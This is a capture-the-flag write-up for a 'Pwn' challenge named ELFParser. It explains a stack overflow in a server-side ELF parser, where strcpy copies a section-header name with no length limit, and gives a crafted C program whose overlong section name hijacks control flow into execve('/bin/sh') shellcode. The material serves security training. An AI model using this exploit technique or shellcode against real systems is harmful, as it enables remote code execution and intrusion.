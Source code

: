 #ELFParser

**Author:** Xiao0o0o0o

**Difficulty:** Hard

**Category:** Pwn

## Title description

After learning the ELF file format, your roommate wrote an ELF file parser and deployed it on the server.

"Although you can upload an ELF at will, you can't execute it on my server at will, so it's safe!"

But is this really the case?

## Question analysis

**Exposed port: `70`**

```c
strcpy(v7, (const char *)(*(unsigned int *)(v4 + ((__int64)(int)i << 6)) + v3));
```

Note that when copying `Shdr.name`, there is no length limit, causing stack overflow. `strcpy()` will stop at `\x00`. Also note that when `mmap()`, `PROT_EXEC` is set, and The first parameter gives the address of the map `0x800000`, so you can write the shellcode in the ELF you uploaded, return oriented programming to the address of the map, and get the shell.

```c
int __attribute__((section("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x2d\x11\x80"))) main() {
    __asm__ __volatile__
    (
     "movq $0x0068732f6e69622f, %rdx \n"
     "pushq %rdx                     \n"
     "movq $0x3b, %rax               \n"
     "movq %rsp, %rdi                \n"
     "movq $0, %rdx                  \n"
     "movq $0, %rsi                  \n"
     "syscall                        \n"
     "pop %rdi                       \n"
     "pop %rdx                       \n"
    );
}
```
